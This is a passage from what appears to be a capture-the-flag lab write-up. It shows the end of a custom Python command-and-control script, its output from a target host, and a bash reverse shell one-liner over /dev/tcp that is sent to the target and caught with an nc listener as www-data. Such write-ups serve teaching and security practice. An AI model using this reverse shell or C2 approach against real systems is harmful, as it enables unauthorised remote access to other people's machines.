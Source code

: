 ```
    assert(new_guid == guid)
    pt_msg = bytes([x^xor for x in unhexlify(msg)]).decode()
    print(f'{pt_msg}')
    c.close()

s.close() 

```

It works!

```

oxdf@hacky$ python3 c2.py 
[+] Connection from 10.10.10.140
[*] Session ID: b'56520806-f755-4571-93f1-7e070b81e374'
[*] XOR key: J
cmd:uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Reverse Shell

I’ll test changing `id` to a bash reverse shell in the script:

```

    cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"

```

I’ll save that and send it, and run it. On clicking Send in Repeater, there’s a the connection:

```

oxdf@hacky$ python3 c2.py 
[+] Connection from 10.10.10.140
[*] Session ID: b'9441aaf0-856a-46a0-a9ee-8c3180e4fc3d'
[*] XOR key: Q

```

And then a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:45002.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wordpress:/var/www/html$

```
